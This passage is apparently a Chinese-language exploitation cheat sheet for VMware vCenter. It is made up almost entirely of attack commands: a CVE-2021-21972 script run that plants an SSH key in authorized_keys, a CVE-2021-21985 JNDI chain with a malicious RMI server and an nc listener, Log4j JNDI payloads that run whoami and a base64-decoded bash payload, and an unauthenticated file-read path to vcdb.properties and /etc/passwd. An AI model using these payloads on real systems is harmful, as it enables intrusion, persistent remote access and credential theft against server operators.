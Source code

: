 写公私钥（需要22端口开放）

    
    
    python3 CVE-2021-21972.py -t 10.16.8.168 -p /home/vsphere-ui/.ssh/authorized_keys -o unix -f c://Users/think/.ssh/id_rsa.pub

遍历写shell（时间较久）

![](https://gitee.com/fuli009/images/raw/master/public/20221207152852.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20221207152841.png)

CVE-2021-21985

    
    
    java -cp  JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer 8.8.8.8  
      
    nc -lvvp 55552  
      
    python3 cve-2021-21985.py https://host rmi://8.8.8.8:1099/Exploit

  

![](https://gitee.com/fuli009/images/raw/master/public/20221207152841.png)

Log4j

  

${jndi:ldap://exp}

    
    
    java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "cmd /c whoami" -A "172.30.84.134"  
      
    java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,base编码内容}|{base64,-d}|{bash,-i}" -A "ip"

![](https://gitee.com/fuli009/images/raw/master/public/20221207152856.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20221207152841.png)

vmware未授权任意文件读取漏洞

 **漏洞影响版本**

已知影响版本 VMware vCenter 6.5.0a-f  
安全版本 VMware vCenter 6.5u1

    
    
    # windows  
    /eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties  
      
    # linux  
    /eam/vib?id=/etc/passwd
